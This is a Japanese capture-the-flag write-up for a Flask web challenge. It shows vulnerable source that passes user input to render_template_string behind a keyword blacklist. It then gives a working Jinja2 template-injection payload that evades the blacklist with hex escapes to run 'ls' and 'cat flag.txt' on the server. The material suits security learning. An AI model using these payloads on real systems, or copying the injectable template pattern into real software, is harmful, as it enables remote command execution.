 # Writeup

以下のソースコードが与えられる。

```py
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, redirect, url_for
from base64 import b64encode, b64decode

app = Flask(__name__)

@app.route('/')
def index():
  # i dont remember how to return a string in flask so
  # here goes nothing :rooNervous:
  return render_template_string(open('templates/index.html').read())

@app.route('/backend')
def backend():
  website_b64 = b64encode(request.args['content'].encode())
  return redirect(url_for('site', content=website_b64))

@app.route('/site')
def site():
  content = b64decode(request.args['content']).decode()
  #prevent xss
  blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
  csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
  return render_template_string(csp + content)
```

Flask の SSTI が使えることが分かった。

`global`の`bal`等がブラックリストに登録されているが、`a = 0x61`とすればすり抜けられる。

以下を入力すると、

```
{{request['application']['\x5f\x5fglob\x61ls\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}
```

```
app.py flag.txt templates
```

と表示された。

よって、以下を入力することにより、`flag.txt`の中身を見ることができる。

```
{{request['application']['\x5f\x5fglob\x61ls\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat flag.txt')['read']()}}
```

<!-- ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:} -->
